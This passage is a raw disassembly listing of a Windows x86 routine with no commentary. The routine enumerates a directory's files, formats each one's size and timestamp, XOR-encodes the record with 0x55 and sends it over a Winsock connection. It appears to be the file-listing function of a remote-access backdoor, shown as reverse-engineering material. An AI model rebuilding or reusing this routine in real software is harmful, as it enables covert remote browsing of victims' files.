        00401a4c 8d 44 24 28     LEA        EAX=>local_624,[ESP + 0x28]
        00401a50 50              PUSH       EAX
        00401a51 52              PUSH       EDX
        00401a52 ff 15 2c        CALL       dword ptr [->KERNEL32.DLL::FindFirstFileA]       = 000098f8
                 90 40 00
        00401a58 8b d8           MOV        EBX,EAX
        00401a5a 83 fb ff        CMP        EBX,-0x1
        00401a5d 89 5c 24 24     MOV        dword ptr [ESP + 0x24],EBX
        00401a61 75 20           JNZ        LAB_00401a83
        00401a63 8b 8c 24        MOV        ECX,dword ptr [ESP + 0x650]
                 50 06 00 00
        00401a6a 6a 00           PUSH       0x0
        00401a6c 6a 02           PUSH       0x2
        00401a6e 68 8c a1        PUSH       DAT_0040a18c                                     = 71h    q
                 40 00
        00401a73 51              PUSH       ECX
        00401a74 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        00401a7a 5f              POP        EDI
        00401a7b 5b              POP        EBX
        00401a7c 81 c4 44        ADD        ESP,0x644
                 06 00 00
        00401a82 c3              RET
                             LAB_00401a83                                    XREF[1]:     00401a61(j)  
        00401a83 8b 94 24        MOV        EDX,dword ptr [ESP + 0x650]
                 50 06 00 00
        00401a8a 55              PUSH       EBP
        00401a8b 8b 2d 68        MOV        EBP,dword ptr [->WS2_32.DLL::Ordinal_19]         = 80000013
                 91 40 00
        00401a91 56              PUSH       ESI
        00401a92 6a 00           PUSH       0x0
        00401a94 6a 02           PUSH       0x2
        00401a96 68 88 a1        PUSH       DAT_0040a188                                     = 6Fh
                 40 00
        00401a9b 52              PUSH       EDX
        00401a9c ff d5           CALL       EBP=>WS2_32.DLL::Ordinal_19
        00401a9e b9 58 00        MOV        ECX,0x58
                 00 00
        00401aa3 33 c0           XOR        EAX,EAX
        00401aa5 8d bc 24        LEA        EDI,[ESP + 0x3f4]
                 f4 03 00 00
        00401aac 68 10 05        PUSH       0x510
                 00 00
        00401ab1 f3 ab           STOSD.REP  ES:EDI
        00401ab3 8d 84 24        LEA        EAX,[ESP + 0x3f8]
                 f8 03 00 00
        00401aba 68 60 01        PUSH       0x160
                 00 00
        00401abf 50              PUSH       EAX
        00401ac0 8d 8c 24        LEA        ECX,[ESP + 0x17c]
                 7c 01 00 00
        00401ac7 68 80 00        PUSH       0x80
                 00 00
        00401acc 51              PUSH       ECX
        00401acd ff 15 30        CALL       dword ptr [->SHELL32.DLL::SHGetFileInfoA]        = 00009a92
                 91 40 00
        00401ad3 b9 81 00        MOV        ECX,0x81
                 00 00
        00401ad8 33 c0           XOR        EAX,EAX
        00401ada 8d bc 24        LEA        EDI,[ESP + 0x170]
                 70 01 00 00
        00401ae1 be 84 a1        MOV        ESI,DAT_0040a184                                 = 2Eh
                 40 00
        00401ae6 f3 ab           STOSD.REP  ES:EDI
        00401ae8 c7 84 24        MOV        dword ptr [ESP + 0x370],0x1
                 70 03 00 
                 00 01 00 
        00401af3 8d 44 24 5c     LEA        EAX,[ESP + 0x5c]
                             LAB_00401af7                                    XREF[1]:     00401b15(j)  
        00401af7 8a 10           MOV        DL,byte ptr [EAX]
        00401af9 8a ca           MOV        CL,DL
        00401afb 3a 16           CMP        DL,byte ptr [ESI]=>DAT_0040a184                  = 2Eh
        00401afd 75 1c           JNZ        LAB_00401b1b
        00401aff 84 c9           TEST       CL,CL
        00401b01 74 14           JZ         LAB_00401b17
        00401b03 8a 50 01        MOV        DL,byte ptr [EAX + 0x1]
        00401b06 8a ca           MOV        CL,DL
        00401b08 3a 56 01        CMP        DL,byte ptr [ESI + 0x1]=>DAT_0040a185
        00401b0b 75 0e           JNZ        LAB_00401b1b
        00401b0d 83 c0 02        ADD        EAX,0x2
        00401b10 83 c6 02        ADD        ESI,0x2
        00401b13 84 c9           TEST       CL,CL
        00401b15 75 e0           JNZ        LAB_00401af7
                             LAB_00401b17                                    XREF[1]:     00401b01(j)  
        00401b17 33 c0           XOR        EAX,EAX
        00401b19 eb 05           JMP        LAB_00401b20
                             LAB_00401b1b                                    XREF[2]:     00401afd(j), 00401b0b(j)  
        00401b1b 1b c0           SBB        EAX,EAX
        00401b1d 83 d8 ff        SBB        EAX,-0x1
                             LAB_00401b20                                    XREF[1]:     00401b19(j)  
        00401b20 85 c0           TEST       EAX,EAX
        00401b22 0f 84 01        JZ         LAB_00401d29
                 02 00 00
        00401b28 be 80 a1        MOV        ESI,DAT_0040a180                                 = 2Eh
                 40 00
        00401b2d 8d 44 24 5c     LEA        EAX,[ESP + 0x5c]
                             LAB_00401b31                                    XREF[1]:     00401b4f(j)  
        00401b31 8a 10           MOV        DL,byte ptr [EAX]
        00401b33 8a ca           MOV        CL,DL
        00401b35 3a 16           CMP        DL,byte ptr [ESI]=>DAT_0040a180                  = 2Eh
        00401b37 75 1c           JNZ        LAB_00401b55
        00401b39 84 c9           TEST       CL,CL
        00401b3b 74 14           JZ         LAB_00401b51
        00401b3d 8a 50 01        MOV        DL,byte ptr [EAX + 0x1]
        00401b40 8a ca           MOV        CL,DL
        00401b42 3a 56 01        CMP        DL,byte ptr [ESI + 0x1]=>DAT_0040a181            = 2Eh
        00401b45 75 0e           JNZ        LAB_00401b55
        00401b47 83 c0 02        ADD        EAX,0x2
        00401b4a 83 c6 02        ADD        ESI,0x2
        00401b4d 84 c9           TEST       CL,CL
        00401b4f 75 e0           JNZ        LAB_00401b31
                             LAB_00401b51                                    XREF[1]:     00401b3b(j)  
        00401b51 33 c0           XOR        EAX,EAX
        00401b53 eb 05           JMP        LAB_00401b5a
                             LAB_00401b55                                    XREF[2]:     00401b37(j), 00401b45(j)  
        00401b55 1b c0           SBB        EAX,EAX
        00401b57 83 d8 ff        SBB        EAX,-0x1
                             LAB_00401b5a                                    XREF[1]:     00401b53(j)  
        00401b5a 85 c0           TEST       EAX,EAX
        00401b5c 0f 84 c7        JZ         LAB_00401d29
                 01 00 00
        00401b62 8d 7c 24 5c     LEA        EDI,[ESP + 0x5c]
        00401b66 83 c9 ff        OR         ECX,0xffffffff
        00401b69 33 c0           XOR        EAX,EAX
        00401b6b 8d 94 24        LEA        EDX,[ESP + 0x170]
                 70 01 00 00
        00401b72 f2 ae           SCASB.RE   ES:EDI
        00401b74 f7 d1           NOT        ECX
        00401b76 2b f9           SUB        EDI,ECX
        00401b78 8b c1           MOV        EAX,ECX
        00401b7a 8b f7           MOV        ESI,EDI
        00401b7c 8b fa           MOV        EDI,EDX
        00401b7e c1 e9 02        SHR        ECX,0x2
        00401b81 f3 a5           MOVSD.REP  ES:EDI,ESI
        00401b83 8b c8           MOV        ECX,EAX
        00401b85 8a 44 24 30     MOV        AL,byte ptr [ESP + 0x30]
        00401b89 83 e1 03        AND        ECX,0x3
        00401b8c a8 10           TEST       AL,0x10
        00401b8e f3 a4           MOVSB.REP  ES:EDI,ESI
        00401b90 74 0e           JZ         LAB_00401ba0
        00401b92 8d 94 24        LEA        EDX,[ESP + 0x270]
                 70 02 00 00
        00401b99 bf 7c a1        MOV        EDI,DAT_0040a17c                                 = 44h
                 40 00
        00401b9e eb 0e           JMP        LAB_00401bae
                             LAB_00401ba0                                    XREF[1]:     00401b90(j)  
        00401ba0 8d bc 24        LEA        EDI,[ESP + 0x504]
                 04 05 00 00
        00401ba7 8d 94 24        LEA        EDX,[ESP + 0x270]
                 70 02 00 00
                             LAB_00401bae                                    XREF[1]:     00401b9e(j)  
        00401bae 83 c9 ff        OR         ECX,0xffffffff
        00401bb1 33 c0           XOR        EAX,EAX
        00401bb3 f2 ae           SCASB.RE   ES:EDI=>DAT_0040a17c                             = 44h
                                                                                             = 49h
        00401bb5 f7 d1           NOT        ECX
        00401bb7 2b f9           SUB        EDI,ECX
        00401bb9 8b c1           MOV        EAX,ECX
        00401bbb 8b f7           MOV        ESI,EDI
        00401bbd 8b fa           MOV        EDI,EDX
        00401bbf 8d 94 24        LEA        EDX,[ESP + 0x374]
                 74 03 00 00
        00401bc6 c1 e9 02        SHR        ECX,0x2
        00401bc9 f3 a5           MOVSD.REP  ES:EDI,ESI
        00401bcb 8b c8           MOV        ECX,EAX
        00401bcd 83 e1 03        AND        ECX,0x3
        00401bd0 f3 a4           MOVSB.REP  ES:EDI,ESI
        00401bd2 8b 4c 24 50     MOV        ECX,dword ptr [ESP + 0x50]
        00401bd6 8b 74 24 4c     MOV        ESI,dword ptr [ESP + 0x4c]
        00401bda 2b ce           SUB        ECX,ESI
        00401bdc c1 e9 0a        SHR        ECX,0xa
        00401bdf 51              PUSH       ECX
        00401be0 68 78 a1        PUSH       DAT_0040a178                                     = 25h    %
                 40 00
        00401be5 52              PUSH       EDX
        00401be6 e8 bf 18        CALL       FUN_004034aa                                     int FUN_004034aa(undefined1 * pa
                 00 00
        00401beb 8a 44 24 3c     MOV        AL,byte ptr [ESP + 0x3c]
        00401bef 83 c4 0c        ADD        ESP,0xc
        00401bf2 a8 10           TEST       AL,0x10
        00401bf4 74 0e           JZ         LAB_00401c04
        00401bf6 8d 94 24        LEA        EDX,[ESP + 0x2b0]
                 b0 02 00 00
        00401bfd bf ac ad        MOV        EDI,DAT_0040adac
                 40 00
        00401c02 eb 0e           JMP        LAB_00401c12
                             LAB_00401c04                                    XREF[1]:     00401bf4(j)  
        00401c04 8d bc 24        LEA        EDI,[ESP + 0x374]
                 74 03 00 00
        00401c0b 8d 94 24        LEA        EDX,[ESP + 0x2b0]
                 b0 02 00 00
                             LAB_00401c12                                    XREF[1]:     00401c02(j)  
        00401c12 83 c9 ff        OR         ECX,0xffffffff
        00401c15 33 c0           XOR        EAX,EAX
        00401c17 f2 ae           SCASB.RE   ES:EDI=>DAT_0040adac
        00401c19 f7 d1           NOT        ECX
        00401c1b 2b f9           SUB        EDI,ECX
        00401c1d 8b c1           MOV        EAX,ECX
        00401c1f 8b f7           MOV        ESI,EDI
        00401c21 8b fa           MOV        EDI,EDX
        00401c23 8b 54 24 48     MOV        EDX,dword ptr [ESP + 0x48]
        00401c27 c1 e9 02        SHR        ECX,0x2
        00401c2a f3 a5           MOVSD.REP  ES:EDI,ESI
        00401c2c 8b c8           MOV        ECX,EAX
        00401c2e 8d 44 24 14     LEA        EAX,[ESP + 0x14]
        00401c32 83 e1 03        AND        ECX,0x3
        00401c35 50              PUSH       EAX
        00401c36 f3 a4           MOVSB.REP  ES:EDI,ESI
        00401c38 8b 4c 24 48     MOV        ECX,dword ptr [ESP + 0x48]
        00401c3c 89 54 24 2c     MOV        dword ptr [ESP + 0x2c],EDX
        00401c40 89 4c 24 28     MOV        dword ptr [ESP + 0x28],ECX
        00401c44 8d 4c 24 28     LEA        ECX,[ESP + 0x28]
        00401c48 51              PUSH       ECX
        00401c49 ff 15 28        CALL       dword ptr [->KERNEL32.DLL::FileTimeToSystemTime] = 000098e0
                 90 40 00
        00401c4f 8b 54 24 20     MOV        EDX,dword ptr [ESP + 0x20]
        00401c53 8b 44 24 1e     MOV        EAX,dword ptr [ESP + 0x1e]
        00401c57 8b 4c 24 1c     MOV        ECX,dword ptr [ESP + 0x1c]
        00401c5b 81 e2 ff        AND        EDX,0xffff
                 ff 00 00
        00401c61 25 ff ff        AND        EAX,0xffff
                 00 00
        00401c66 52              PUSH       EDX
        00401c67 8b 54 24 1e     MOV        EDX,dword ptr [ESP + 0x1e]
        00401c6b 81 e1 ff        AND        ECX,0xffff
                 ff 00 00
        00401c71 50              PUSH       EAX
        00401c72 8b 44 24 1e     MOV        EAX,dword ptr [ESP + 0x1e]
        00401c76 51              PUSH       ECX
        00401c77 8b 4c 24 20     MOV        ECX,dword ptr [ESP + 0x20]
        00401c7b 81 e2 ff        AND        EDX,0xffff
                 ff 00 00
        00401c81 25 ff ff        AND        EAX,0xffff
                 00 00
        00401c86 52              PUSH       EDX
        00401c87 81 e1 ff        AND        ECX,0xffff
                 ff 00 00
        00401c8d 50              PUSH       EAX
        00401c8e 51              PUSH       ECX
        00401c8f 8d 94 24        LEA        EDX,[ESP + 0x56c]
                 6c 05 00 00
        00401c96 68 58 a1        PUSH       s_%4d-%02d-%02d_%02d:%02d:%02d_0040a158          = "%4d-%02d-%02d %02d:%02d:%02d"
                 40 00
        00401c9b 52              PUSH       EDX
        00401c9c e8 09 18        CALL       FUN_004034aa                                     int FUN_004034aa(undefined1 * pa
                 00 00
        00401ca1 8d bc 24        LEA        EDI,[ESP + 0x574]
                 74 05 00 00
        00401ca8 83 c9 ff        OR         ECX,0xffffffff
        00401cab 33 c0           XOR        EAX,EAX
        00401cad 83 c4 20        ADD        ESP,0x20
        00401cb0 f2 ae           SCASB.RE   ES:EDI
        00401cb2 f7 d1           NOT        ECX
        00401cb4 2b f9           SUB        EDI,ECX
        00401cb6 8d 94 24        LEA        EDX,[ESP + 0x2f0]
                 f0 02 00 00
        00401cbd 8b c1           MOV        EAX,ECX
        00401cbf 8b f7           MOV        ESI,EDI
        00401cc1 8b fa           MOV        EDI,EDX
        00401cc3 c1 e9 02        SHR        ECX,0x2
        00401cc6 f3 a5           MOVSD.REP  ES:EDI,ESI
        00401cc8 8b c8           MOV        ECX,EAX
        00401cca 83 e1 03        AND        ECX,0x3
        00401ccd f3 a4           MOVSB.REP  ES:EDI,ESI
                             LAB_00401ccf                                    XREF[1]:     00401d27(j)  
        00401ccf 33 c0           XOR        EAX,EAX
                             LAB_00401cd1                                    XREF[1]:     00401ce8(j)  
        00401cd1 8a 8c 04        MOV        CL,byte ptr [ESP + EAX*0x1 + 0x170]
                 70 01 00 00
        00401cd8 80 f1 55        XOR        CL,0x55
        00401cdb 88 8c 04        MOV        byte ptr [ESP + EAX*0x1 + 0x170],CL
                 70 01 00 00
        00401ce2 40              INC        EAX
        00401ce3 3d 00 01        CMP        EAX,0x100
                 00 00
        00401ce8 7c e7           JL         LAB_00401cd1
        00401cea 8b 15 80        MOV        EDX,dword ptr [DAT_0040aa80]
                 aa 40 00
        00401cf0 6a 00           PUSH       0x0
        00401cf2 8d 8c 24        LEA        ECX,[ESP + 0x174]
                 74 01 00 00
        00401cf9 68 04 02        PUSH       0x204
                 00 00
        00401cfe 51              PUSH       ECX
        00401cff 52              PUSH       EDX
        00401d00 ff d5           CALL       EBP=>WS2_32.DLL::Ordinal_19
        00401d02 8b 0d 80        MOV        ECX,dword ptr [DAT_0040aa80]
                 aa 40 00
        00401d08 6a 00           PUSH       0x0
        00401d0a 8d 44 24 16     LEA        EAX,[ESP + 0x16]
        00401d0e 6a 02           PUSH       0x2
        00401d10 50              PUSH       EAX
        00401d11 51              PUSH       ECX
        00401d12 ff 15 40        CALL       dword ptr [->WS2_32.DLL::Ordinal_16]             = 80000010
                 91 40 00
        00401d18 8d 54 24 12     LEA        EDX,[ESP + 0x12]
        00401d1c 52              PUSH       EDX
        00401d1d e8 4b 0c        CALL       FUN_0040296d                                     undefined FUN_0040296d(void * th
                 00 00
        00401d22 83 c4 04        ADD        ESP,0x4
        00401d25 85 c0           TEST       EAX,EAX
        00401d27 75 a6           JNZ        LAB_00401ccf
                             LAB_00401d29                                    XREF[2]:     00401b22(j), 00401b5c(j)  
        00401d29 85 db           TEST       EBX,EBX
        00401d2b 0f 84 c2        JZ         LAB_00401ff3
                 02 00 00
        00401d31 8b 2d 24        MOV        EBP,dword ptr [->KERNEL32.DLL::FindNextFileA]    = 000098d0
                 90 40 00
        00401d37 8b 1d 20        MOV        EBX,dword ptr [->KERNEL32.DLL::GetLastError]     = 000098c0
                 90 40 00
                             LAB_00401d3d                                    XREF[4]:     00401da0(j), 00401dd6(j), 
                                                                                          00401fd9(j), 00401fe3(j)  
        00401d3d b9 81 00        MOV        ECX,0x81
                 00 00
        00401d42 33 c0           XOR        EAX,EAX
        00401d44 8d bc 24        LEA        EDI,[ESP + 0x170]
                 70 01 00 00
        00401d4b f3 ab           STOSD.REP  ES:EDI
        00401d4d 8b 4c 24 2c     MOV        ECX,dword ptr [ESP + 0x2c]
        00401d51 8d 44 24 30     LEA        EAX,[ESP + 0x30]
        00401d55 50              PUSH       EAX
        00401d56 51              PUSH       ECX
        00401d57 ff d5           CALL       EBP=>KERNEL32.DLL::FindNextFileA
        00401d59 85 c0           TEST       EAX,EAX
        00401d5b 0f 84 7d        JZ         LAB_00401fde
                 02 00 00
        00401d61 c7 84 24        MOV        dword ptr [ESP + 0x370],0x1
                 70 03 00 
                 00 01 00 
        00401d6c be 84 a1        MOV        ESI,DAT_0040a184                                 = 2Eh
                 40 00
        00401d71 8d 44 24 5c     LEA        EAX,[ESP + 0x5c]
                             LAB_00401d75                                    XREF[1]:     00401d93(j)  
        00401d75 8a 10           MOV        DL,byte ptr [EAX]
        00401d77 8a ca           MOV        CL,DL
        00401d79 3a 16           CMP        DL,byte ptr [ESI]=>DAT_0040a184                  = 2Eh
        00401d7b 75 1c           JNZ        LAB_00401d99
        00401d7d 84 c9           TEST       CL,CL
        00401d7f 74 14           JZ         LAB_00401d95
        00401d81 8a 50 01        MOV        DL,byte ptr [EAX + 0x1]
        00401d84 8a ca           MOV        CL,DL
        00401d86 3a 56 01        CMP        DL,byte ptr [ESI + 0x1]=>DAT_0040a185
        00401d89 75 0e           JNZ        LAB_00401d99
        00401d8b 83 c0 02        ADD        EAX,0x2
        00401d8e 83 c6 02        ADD        ESI,0x2
        00401d91 84 c9           TEST       CL,CL
        00401d93 75 e0           JNZ        LAB_00401d75
                             LAB_00401d95                                    XREF[1]:     00401d7f(j)  
        00401d95 33 c0           XOR        EAX,EAX
        00401d97 eb 05           JMP        LAB_00401d9e
                             LAB_00401d99                                    XREF[2]:     00401d7b(j), 00401d89(j)  
        00401d99 1b c0           SBB        EAX,EAX
        00401d9b 83 d8 ff        SBB        EAX,-0x1
                             LAB_00401d9e                                    XREF[1]:     00401d97(j)  
        00401d9e 85 c0           TEST       EAX,EAX
        00401da0 74 9b           JZ         LAB_00401d3d
        00401da2 be 80 a1        MOV        ESI,DAT_0040a180                                 = 2Eh
                 40 00
        00401da7 8d 44 24 5c     LEA        EAX,[ESP + 0x5c]
                             LAB_00401dab                                    XREF[1]:     00401dc9(j)  
        00401dab 8a 10           MOV        DL,byte ptr [EAX]
        00401dad 8a ca           MOV        CL,DL
        00401daf 3a 16           CMP        DL,byte ptr [ESI]=>DAT_0040a180                  = 2Eh
        00401db1 75 1c           JNZ        LAB_00401dcf
        00401db3 84 c9           TEST       CL,CL
        00401db5 74 14           JZ         LAB_00401dcb
        00401db7 8a 50 01        MOV        DL,byte ptr [EAX + 0x1]
        00401dba 8a ca           MOV        CL,DL
        00401dbc 3a 56 01        CMP        DL,byte ptr [ESI + 0x1]=>DAT_0040a181            = 2Eh
        00401dbf 75 0e           JNZ        LAB_00401dcf
        00401dc1 83 c0 02        ADD        EAX,0x2
        00401dc4 83 c6 02        ADD        ESI,0x2
        00401dc7 84 c9           TEST       CL,CL
        00401dc9 75 e0           JNZ        LAB_00401dab
                             LAB_00401dcb                                    XREF[1]:     00401db5(j)  
        00401dcb 33 c0           XOR        EAX,EAX
        00401dcd eb 05           JMP        LAB_00401dd4
                             LAB_00401dcf                                    XREF[2]:     00401db1(j), 00401dbf(j)  
        00401dcf 1b c0           SBB        EAX,EAX
        00401dd1 83 d8 ff        SBB        EAX,-0x1
                             LAB_00401dd4                                    XREF[1]:     00401dcd(j)  
        00401dd4 85 c0           TEST       EAX,EAX
        00401dd6 0f 84 61        JZ         LAB_00401d3d
                 ff ff ff
        00401ddc b9 58 00        MOV        ECX,0x58
                 00 00
        00401de1 33 c0           XOR        EAX,EAX
        00401de3 8d bc 24        LEA        EDI,[ESP + 0x3f4]
                 f4 03 00 00
        00401dea 68 10 05        PUSH       0x510
                 00 00
        00401def f3 ab           STOSD.REP  ES:EDI
        00401df1 8d 84 24        LEA        EAX,[ESP + 0x3f8]
                 f8 03 00 00
        00401df8 68 60 01        PUSH       0x160
                 00 00
        00401dfd 50              PUSH       EAX
        00401dfe 8d 4c 24 68     LEA        ECX,[ESP + 0x68]
        00401e02 68 80 00        PUSH       0x80
                 00 00
        00401e07 51              PUSH       ECX
        00401e08 ff 15 30        CALL       dword ptr [->SHELL32.DLL::SHGetFileInfoA]        = 00009a92
                 91 40 00
        00401e0e 8d 7c 24 5c     LEA        EDI,[ESP + 0x5c]
        00401e12 83 c9 ff        OR         ECX,0xffffffff
        00401e15 33 c0           XOR        EAX,EAX
        00401e17 8d 94 24        LEA        EDX,[ESP + 0x170]
                 70 01 00 00
        00401e1e f2 ae           SCASB.RE   ES:EDI
        00401e20 f7 d1           NOT        ECX
        00401e22 2b f9           SUB        EDI,ECX
        00401e24 8b c1           MOV        EAX,ECX
        00401e26 8b f7           MOV        ESI,EDI
        00401e28 8b fa           MOV        EDI,EDX
        00401e2a c1 e9 02        SHR        ECX,0x2
        00401e2d f3 a5           MOVSD.REP  ES:EDI,ESI
        00401e2f 8b c8           MOV        ECX,EAX
        00401e31 8a 44 24 30     MOV        AL,byte ptr [ESP + 0x30]
        00401e35 83 e1 03        AND        ECX,0x3
        00401e38 a8 10           TEST       AL,0x10
        00401e3a f3 a4           MOVSB.REP  ES:EDI,ESI
        00401e3c 74 0e           JZ         LAB_00401e4c
        00401e3e 8d 94 24        LEA        EDX,[ESP + 0x270]
                 70 02 00 00
        00401e45 bf 7c a1        MOV        EDI,DAT_0040a17c                                 = 44h
                 40 00
        00401e4a eb 0e           JMP        LAB_00401e5a
                             LAB_00401e4c                                    XREF[1]:     00401e3c(j)  
        00401e4c 8d bc 24        LEA        EDI,[ESP + 0x504]
                 04 05 00 00
        00401e53 8d 94 24        LEA        EDX,[ESP + 0x270]
                 70 02 00 00
                             LAB_00401e5a                                    XREF[1]:     00401e4a(j)  
        00401e5a 83 c9 ff        OR         ECX,0xffffffff
        00401e5d 33 c0           XOR        EAX,EAX
        00401e5f f2 ae           SCASB.RE   ES:EDI=>DAT_0040a17c                             = 44h
                                                                                             = 49h
        00401e61 f7 d1           NOT        ECX
        00401e63 2b f9           SUB        EDI,ECX
        00401e65 8b c1           MOV        EAX,ECX
        00401e67 8b f7           MOV        ESI,EDI
        00401e69 8b fa           MOV        EDI,EDX
        00401e6b 8d 94 24        LEA        EDX,[ESP + 0x374]
                 74 03 00 00
        00401e72 c1 e9 02        SHR        ECX,0x2
        00401e75 f3 a5           MOVSD.REP  ES:EDI,ESI
        00401e77 8b c8           MOV        ECX,EAX
        00401e79 83 e1 03        AND        ECX,0x3
        00401e7c f3 a4           MOVSB.REP  ES:EDI,ESI
        00401e7e 8b 4c 24 50     MOV        ECX,dword ptr [ESP + 0x50]
        00401e82 8b 74 24 4c     MOV        ESI,dword ptr [ESP + 0x4c]
        00401e86 2b ce           SUB        ECX,ESI
        00401e88 c1 e9 0a        SHR        ECX,0xa
        00401e8b 51              PUSH       ECX
        00401e8c 68 78 a1        PUSH       DAT_0040a178                                     = 25h    %
                 40 00
        00401e91 52              PUSH       EDX
        00401e92 e8 13 16        CALL       FUN_004034aa                                     int FUN_004034aa(undefined1 * pa
                 00 00
        00401e97 8a 44 24 3c     MOV        AL,byte ptr [ESP + 0x3c]
        00401e9b 83 c4 0c        ADD        ESP,0xc
        00401e9e a8 10           TEST       AL,0x10
        00401ea0 74 0e           JZ         LAB_00401eb0
        00401ea2 8d 94 24        LEA        EDX,[ESP + 0x2b0]
                 b0 02 00 00
        00401ea9 bf ac ad        MOV        EDI,DAT_0040adac
                 40 00
        00401eae eb 0e           JMP        LAB_00401ebe
                             LAB_00401eb0                                    XREF[1]:     00401ea0(j)  
        00401eb0 8d bc 24        LEA        EDI,[ESP + 0x374]
                 74 03 00 00
        00401eb7 8d 94 24        LEA        EDX,[ESP + 0x2b0]
                 b0 02 00 00
                             LAB_00401ebe                                    XREF[1]:     00401eae(j)  
        00401ebe 83 c9 ff        OR         ECX,0xffffffff
        00401ec1 33 c0           XOR        EAX,EAX
        00401ec3 f2 ae           SCASB.RE   ES:EDI=>DAT_0040adac
        00401ec5 f7 d1           NOT        ECX
        00401ec7 2b f9           SUB        EDI,ECX
        00401ec9 8b c1           MOV        EAX,ECX
        00401ecb 8b f7           MOV        ESI,EDI
        00401ecd 8b fa           MOV        EDI,EDX
        00401ecf 8b 54 24 48     MOV        EDX,dword ptr [ESP + 0x48]
        00401ed3 c1 e9 02        SHR        ECX,0x2
        00401ed6 f3 a5           MOVSD.REP  ES:EDI,ESI
        00401ed8 8b c8           MOV        ECX,EAX
        00401eda 8d 44 24 14     LEA        EAX,[ESP + 0x14]
        00401ede 83 e1 03        AND        ECX,0x3
        00401ee1 50              PUSH       EAX
        00401ee2 f3 a4           MOVSB.REP  ES:EDI,ESI
        00401ee4 8b 4c 24 48     MOV        ECX,dword ptr [ESP + 0x48]
        00401ee8 89 54 24 2c     MOV        dword ptr [ESP + 0x2c],EDX
        00401eec 89 4c 24 28     MOV        dword ptr [ESP + 0x28],ECX
        00401ef0 8d 4c 24 28     LEA        ECX,[ESP + 0x28]
        00401ef4 51              PUSH       ECX
        00401ef5 ff 15 28        CALL       dword ptr [->KERNEL32.DLL::FileTimeToSystemTime] = 000098e0
                 90 40 00
        00401efb 8b 54 24 20     MOV        EDX,dword ptr [ESP + 0x20]
        00401eff 8b 44 24 1e     MOV        EAX,dword ptr [ESP + 0x1e]
        00401f03 8b 4c 24 1c     MOV        ECX,dword ptr [ESP + 0x1c]
        00401f07 81 e2 ff        AND        EDX,0xffff
                 ff 00 00
        00401f0d 25 ff ff        AND        EAX,0xffff
                 00 00
        00401f12 52              PUSH       EDX
        00401f13 8b 54 24 1e     MOV        EDX,dword ptr [ESP + 0x1e]
        00401f17 81 e1 ff        AND        ECX,0xffff
                 ff 00 00
        00401f1d 50              PUSH       EAX
        00401f1e 8b 44 24 1e     MOV        EAX,dword ptr [ESP + 0x1e]
        00401f22 51              PUSH       ECX
        00401f23 8b 4c 24 20     MOV        ECX,dword ptr [ESP + 0x20]
        00401f27 81 e2 ff        AND        EDX,0xffff
                 ff 00 00
        00401f2d 25 ff ff        AND        EAX,0xffff
                 00 00
        00401f32 52              PUSH       EDX
        00401f33 81 e1 ff        AND        ECX,0xffff
                 ff 00 00
        00401f39 50              PUSH       EAX
        00401f3a 51              PUSH       ECX
        00401f3b 8d 94 24        LEA        EDX,[ESP + 0x56c]
                 6c 05 00 00
        00401f42 68 58 a1        PUSH       s_%4d-%02d-%02d_%02d:%02d:%02d_0040a158          = "%4d-%02d-%02d %02d:%02d:%02d"
                 40 00
        00401f47 52              PUSH       EDX
        00401f48 e8 5d 15        CALL       FUN_004034aa                                     int FUN_004034aa(undefined1 * pa
                 00 00
        00401f4d 8d bc 24        LEA        EDI,[ESP + 0x574]
                 74 05 00 00
        00401f54 83 c9 ff        OR         ECX,0xffffffff
        00401f57 33 c0           XOR        EAX,EAX
        00401f59 83 c4 20        ADD        ESP,0x20
        00401f5c f2 ae           SCASB.RE   ES:EDI
        00401f5e f7 d1           NOT        ECX
        00401f60 2b f9           SUB        EDI,ECX
        00401f62 8d 94 24        LEA        EDX,[ESP + 0x2f0]
                 f0 02 00 00
        00401f69 8b c1           MOV        EAX,ECX
        00401f6b 8b f7           MOV        ESI,EDI
        00401f6d 8b fa           MOV        EDI,EDX
        00401f6f c1 e9 02        SHR        ECX,0x2
        00401f72 f3 a5           MOVSD.REP  ES:EDI,ESI
        00401f74 8b c8           MOV        ECX,EAX
        00401f76 83 e1 03        AND        ECX,0x3
        00401f79 f3 a4           MOVSB.REP  ES:EDI,ESI
                             LAB_00401f7b                                    XREF[1]:     00401fd7(j)  
        00401f7b 33 c0           XOR        EAX,EAX
                             LAB_00401f7d                                    XREF[1]:     00401f94(j)  
        00401f7d 8a 8c 04        MOV        CL,byte ptr [ESP + EAX*0x1 + 0x170]
                 70 01 00 00
        00401f84 80 f1 55        XOR        CL,0x55
        00401f87 88 8c 04        MOV        byte ptr [ESP + EAX*0x1 + 0x170],CL
                 70 01 00 00
        00401f8e 40              INC        EAX
        00401f8f 3d 00 01        CMP        EAX,0x100
                 00 00
        00401f94 7c e7           JL         LAB_00401f7d
        00401f96 8b 15 80        MOV        EDX,dword ptr [DAT_0040aa80]
                 aa 40 00
        00401f9c 6a 00           PUSH       0x0
        00401f9e 8d 8c 24        LEA        ECX,[ESP + 0x174]
                 74 01 00 00
        00401fa5 68 04 02        PUSH       0x204
                 00 00
        00401faa 51              PUSH       ECX
        00401fab 52              PUSH       EDX
        00401fac ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        00401fb2 8b 0d 80        MOV        ECX,dword ptr [DAT_0040aa80]
                 aa 40 00
        00401fb8 6a 00           PUSH       0x0
        00401fba 8d 44 24 16     LEA        EAX,[ESP + 0x16]
        00401fbe 6a 02           PUSH       0x2
        00401fc0 50              PUSH       EAX
        00401fc1 51              PUSH       ECX
        00401fc2 ff 15 40        CALL       dword ptr [->WS2_32.DLL::Ordinal_16]             = 80000010
                 91 40 00
        00401fc8 8d 54 24 12     LEA        EDX,[ESP + 0x12]
        00401fcc 52              PUSH       EDX
        00401fcd e8 9b 09        CALL       FUN_0040296d                                     undefined FUN_0040296d(void * th
                 00 00
        00401fd2 83 c4 04        ADD        ESP,0x4
        00401fd5 85 c0           TEST       EAX,EAX
        00401fd7 75 a2           JNZ        LAB_00401f7b
        00401fd9 e9 5f fd        JMP        LAB_00401d3d
                 ff ff
                             LAB_00401fde                                    XREF[1]:     00401d5b(j)  
        00401fde ff d3           CALL       EBX=>KERNEL32.DLL::GetLastError
        00401fe0 83 f8 12        CMP        EAX,0x12
        00401fe3 0f 85 54        JNZ        LAB_00401d3d
                 fd ff ff
        00401fe9 8b 5c 24 2c     MOV        EBX,dword ptr [ESP + 0x2c]
        00401fed 8b 2d 68        MOV        EBP,dword ptr [->WS2_32.DLL::Ordinal_19]         = 80000013
                 91 40 00
